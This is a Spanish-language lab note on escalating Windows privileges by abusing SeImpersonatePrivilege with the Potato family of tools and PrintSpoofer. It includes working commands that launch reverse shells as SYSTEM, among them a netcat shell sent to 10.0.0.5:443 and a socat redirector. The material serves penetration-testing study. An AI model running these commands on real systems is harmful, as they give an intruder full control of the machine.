




> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Token Impersonation (SeImpersonatePrivilege)

# 🎭 Token Impersonate (SeImpersonatePrivilege)

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 🔐 ¿Qué es el Token Impersonate?

 

El **"token impersonate"** es un mecanismo que permite que un proceso o hilo en un sistema operativo asuma temporalmente la identidad de otro usuario para llevar a cabo acciones en su nombre.

 

Es una técnica utilizada en entornos de programación y sistemas operativos para permitir que una aplicación realice operaciones en nombre de un usuario diferente sin necesidad de que el usuario proporcione su contraseña o credenciales nuevamente. Esto puede ser útil en situaciones donde una aplicación necesita acceder a recursos protegidos o realizar acciones en un entorno con privilegios específicos.

 

> [!note]
> 
 
> #### 💡 Elevación de Privilegios con Token Impersonate:
> 
 
> La elevación de privilegios basada en el **token impersonate** es una técnica utilizada en sistemas operativos como Windows para permitir que una aplicación o proceso obtenga temporalmente privilegios adicionales y acceda a recursos o realice operaciones que requieren permisos elevados.
> 
> Cuando un proceso o hilo solicita la elevación de privilegios, el sistema operativo verifica si el usuario actual tiene los permisos necesarios para realizar la acción solicitada. Si no los tiene, el sistema puede utilizar el token de impersonación para otorgar temporalmente privilegios más altos al proceso o hilo en cuestión. Esto permite que la aplicación actúe con privilegios elevados solo durante el tiempo necesario para completar la operación específica y luego vuelva a su estado original con privilegios limitados.
> 

 

> [!warning]
> 
 
> #### ⚠️ Vulnerabilidad - SeImpersonatePrivilege:
> 
 
> Si un usuario tiene el privilegio **SeImpersonatePrivilege** habilitado, puede:
> 

> 
> * Impersonar tokens de otros usuarios del sistema
> 
> * Ejecutar código con los privilegios de esos usuarios
> 
> * Escalar privilegios a **NT AUTHORITY\SYSTEM**
> 

> 
> Este privilegio es común en cuentas de servicio (IIS, SQL Server, etc.) y puede ser explotado para obtener privilegios máximos.
> 

 

 
 

## 🔍 Enumeración - Identificando la Versión

 

### 📋 Paso 1: Verificar Versión de Windows

 

Es fundamental conocer la versión de Windows, ya que se utilizan **diferentes herramientas** para explotar esta vulnerabilidad.

 

Ejecutamos `systeminfo` y comprobamos la versión de Windows:

 



 

```cmd
C:\tools> systeminfo
```

 

> [!tip]
> 
 
> #### 🔧 Información Importante de systeminfo:
> 
 
> Buscar en la salida:
> 

> 
> * **OS Name:** Nombre del sistema operativo (Windows 10, Server 2016, etc.)
> 
> * **OS Version:** Versión específica del build
> 
> * **System Type:** Arquitectura (x64 o x86)
> 

> 
> Esta información determina qué herramienta de explotación debemos usar.
> 

 

### 🛠️ Herramientas según la Versión de Windows

 

> [!note]
> 
 
> #### 📦 Herramientas de Explotación:
> 

> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Juicy Potato**
> 
> GitHub
> 
> 
> **Print Spoofer**
> 
> GitHub
> 
> 
> **Rogue Potato**
> 
> GitHub
> 
> 
> **God Potato**
> 
> GitHub
> 
> 
> 
> | Herramienta | Versiones Compatibles | Repositorio |
> | --- | --- | --- |
> | | Windows 7 – Windows 10 / Server 2016 (hasta v1803) | |
> | | Windows 10 / Server 2016 v1607 – Windows 10 / Server 2019 | |
> | | Windows 10 / Server 2019 (v1809) | |
> | | Windows Server 2012-2022 / Windows 8-11 | |
> 
 

 

#### 🥔 Juicy Potato

 

 
* **Versiones:** Windows 7 – Windows 10 / Server 2016 version 1803
 
* **Repositorio:** https://github.com/ohpe/juicy-potato
 
* **Binarios:** https://github.com/ohpe/juicy-potato/releases
 
* **CLSIDs:** Lista de CLSIDs
 

 

```cmd
C:\tools> JuicyPotato.exe -l 443 -p C:\Tools\revshell.exe -t *
# Añadir -c {CLSID} si es necesario
```

 

#### 🖨️ Print Spoofer

 

 
* **Versiones:** Windows 10 / Server 2016 version 1607 – Windows 10 / Server 2019 present
 
* **Repositorio:** https://github.com/itm4n/PrintSpoofer
 
* **Binarios:** https://github.com/dievus/printspoofer
 

 

```cmd
C:\tools> PrintSpoofer.exe -i -c c:\tools\revshell.exe
```

 

#### 🥔 Rogue Potato

 

 
* **Versiones:** Windows 10 / Server 2019 version 1809
 
* **Repositorio:** https://github.com/antonioCoco/RoguePotato
 
* **Binarios:** Releases
 

 

**En la máquina atacante (Kali):**
 

```bash
$ socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.200:9999
```

 

**Desde la máquina Windows:**
 

```cmd
C:\tools> RoguePotato.exe -r 10.0.0.5 -e "C:\windows\system32\cmd.exe" -l 9999
```

 

#### 🥔 God Potato

 

 
* **Versiones:** Windows Server 2012 - Windows Server 2022 / Windows 8 - Windows 11
 
* **Repositorio:** https://github.com/BeichenDream/GodPotato
 

 

```cmd
C:\> GodPotato -cmd "cmd /c whoami"
C:\> GodPotato -cmd "cmd /c nc -t -e C:\Windows\System32\cmd.exe 10.0.0.5 443"
```

 

### 🔍 Conocer Versión de.NET Framework

 

Algunas herramientas requieren.NET Framework. Para verificar la versión:

 

**PowerShell:**
 

```powershell
PS C:\> Get-ItemPropertyValue -LiteralPath 'HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full' -Name Release
```

 

**CMD:**
 

```cmd
C:\> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release
```

 

### 🔐 Paso 2: Verificar el Privilegio SeImpersonatePrivilege

 

Iniciamos en el sistema como **user**.

 

Pulsamos inicio, escribimos **cmd** y pulsamos en **ejecutar como administrador**.

 

Nos pedirá las credenciales del user que son las que tenemos y conocemos, las introducimos.

 

Ahora vemos los privilegios de ese usuario donde podemos ver que el **SeImpersonatePrivilege** está habilitado:

 



 

```cmd
C:\> whoami /priv
```

 

> [!warning]
> 
 
> **⚠️ Privilegio Crítico Detectado:**
> 
> Si **SeImpersonatePrivilege** aparece como **Enabled**, el sistema es vulnerable a escalada de privilegios mediante técnicas de impersonación de tokens.
> 
> **Estado del Privilegio:**
> 

> 
> * **Enabled:** El privilegio está activo y puede ser explotado inmediatamente
> 
> * **Disabled:** El privilegio está asignado pero no activo (puede ser habilitado)
> 

> 

 

 
 

## 💥 Explotación de Token Impersonation

 

### 🖨️ Usando Print Spoofer

 

Tenemos en este caso que usar la herramienta **Print Spoofer** (según la versión de Windows detectada).

 

### 🎧 Paso 1: Configurar Listener en Kali

 

Ponemos Kali en espera:

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 2: Ejecutar Print Spoofer

 

Ejecutamos el comando desde Windows:

 



 

```cmd
C:\tools> cd C:\tools\tokens
C:\tools\tokens> PrintSpoofer.exe -i -c c:\tools\revshell.exe
```

 

> [!tip]
> 
 
> #### 🔧 Parámetros de PrintSpoofer:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `-i`
> 
> 
> 
> `-c`
> 
> 
> 
> `c:\tools\revshell.exe`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Interactivo - ejecutar proceso de forma interactiva |
> | | Comando a ejecutar con privilegios elevados |
> | | Nuestro payload de reverse shell |
> 
 
> **Alternativa sin reverse shell:**
> 
> ```cmd
> C:\tools\tokens> PrintSpoofer.exe -i -c cmd
> ```
> 
 
> Esto abre una cmd con privilegios de SYSTEM directamente en la máquina Windows.
> 

 

### ✅ Paso 3: Recibir Shell como NT AUTHORITY\SYSTEM

 

Y obtenemos el Shell ahora sí como **SYSTEM**:

 



 

> [!tip]
> 
 
> #### 🎉 ¡Éxito - Privilegios Máximos Obtenidos!
> 
 
> Hemos escalado privilegios desde un usuario estándar hasta **NT AUTHORITY\SYSTEM**, el nivel más alto de privilegios en Windows.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> NT AUTHORITY\SYSTEM
> 
C:\> whoami /priv
> ```
> 
 
> **Capacidades con privilegios de SYSTEM:**
> 

> 
> * ✅ Control total del sistema operativo
> 
> * ✅ Acceso a todos los archivos y recursos
> 
> * ✅ Modificar cualquier configuración del sistema
> 
> * ✅ Crear/eliminar usuarios y grupos
> 
> * ✅ Instalar/desinstalar software
> 
> * ✅ Modificar el registro completo
> 
> * ✅ Acceder a archivos de todos los usuarios
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ SeImpersonatePrivilege permite impersonar tokens de otros usuarios
> 
> * ✅ Este privilegio es común en cuentas de servicio (IIS, SQL Server, etc.)
> 
> * ✅ La herramienta a usar depende de la versión de Windows
> 
> * ✅ `whoami /priv` muestra los privilegios del usuario actual
> 
> * ✅ Print Spoofer es efectivo en versiones modernas de Windows
> 
> * ✅ Podemos escalar de usuario estándar a NT AUTHORITY\SYSTEM
> 
> * ✅ SYSTEM es el nivel más alto de privilegios en Windows
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **Verificar versión Windows** → 
> **Comprobar whoami /priv** → 
> **Detectar SeImpersonatePrivilege** → 
> **Seleccionar herramienta** → 
> **Ejecutar exploit** → 
> **Shell como NT AUTHORITY\SYSTEM**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Token Impersonate**
> 
> 
> 
> **SeImpersonatePrivilege**
> 
> 
> 
> **NT AUTHORITY\SYSTEM**
> 
> 
> 
> **Print Spoofer**
> 
> 
> 
> **Juicy/Rogue/God Potato**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Mecanismo que permite asumir la identidad de otro usuario |
> | | Privilegio que permite impersonar tokens de otros usuarios |
> | | Cuenta con privilegios máximos en Windows |
> | | Herramienta para explotar SeImpersonatePrivilege vía Print Spooler |
> | | Familia de herramientas de explotación de tokens para diferentes versiones |
> 

> 
> ### 🛠️ Matriz de Herramientas por Versión:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Juicy Potato**
> 
> 
> 
> **Print Spoofer**
> 
> 
> 
> **Rogue Potato**
> 
> 
> 
> **God Potato**
> 
> 
> 
> | Versión de Windows | Herramienta Recomendada |
> | --- | --- |
> | Windows 7 - Windows 10 (hasta v1803) | |
> | Windows 10 v1607+ / Server 2016-2019 | |
> | Windows 10 v1809 / Server 2019 | |
> | Windows 8-11 / Server 2012-2022 | |
> 

> 
> ### 🔍 Comandos de Verificación:
> 
 

> [!note]
> 
 
> ```powershell
> # Verificar versión de Windows
> systeminfo
> 
# Verificar privilegios del usuario
> whoami /priv
> 
# Verificar versión de.NET Framework (PowerShell)
> Get-ItemPropertyValue -LiteralPath 'HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full' -Name Release
> 
# Verificar versión de.NET Framework (CMD)
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release
> 
# Ejecutar Print Spoofer
> PrintSpoofer.exe -i -c c:\tools\revshell.exe
> ```
> 
 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 08: Aplicaciones en el Inicio
> 
> → Fin del Módulo de Escalada de Privilegios en Windows
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
